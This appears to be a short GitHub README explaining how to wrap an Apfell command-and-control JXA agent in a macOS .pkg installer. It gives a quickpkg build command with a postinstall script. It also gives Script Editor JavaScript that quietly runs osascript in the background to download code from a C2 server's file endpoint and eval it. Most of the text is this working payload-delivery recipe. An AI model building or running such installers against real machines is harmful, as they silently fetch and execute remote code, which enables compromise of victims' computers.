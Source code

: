 # Apfell Payload
Making pkg payload from macOS JXA app

**Testing Environment:**  
Ubuntu 18.04.1\
[Apfell v1.4](https://github.com/its-a-feature/Apfell)\
MacOS 10.15.3


## Making the pkg payload
Using this [script](https://github.com/scriptingosx/quickpkg) to make pkg because pkgbuild is fickle.  
Run to build pkg: 
`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor
Create apfelljxa.app with the following Javascript:  
`var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`


Note: Exclude Examples folder when building the .pkg

